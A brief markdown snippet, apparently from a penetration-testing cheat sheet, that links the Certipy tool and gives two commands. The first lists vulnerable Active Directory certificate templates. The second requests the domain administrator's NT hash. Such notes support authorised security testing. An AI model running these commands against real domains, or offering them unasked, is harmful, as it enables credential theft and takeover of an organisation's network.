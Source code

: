 ### Source
https://github.com/ly4k/Certipy  

### Check for vulnerable templates
```
certipy '<domain>/<user>:<password>@<domainController>' find -vulnerable
```

### Request nt hash for administrator
```
certipy '<domain>/<user>:<password>@<domainController>' auto
```

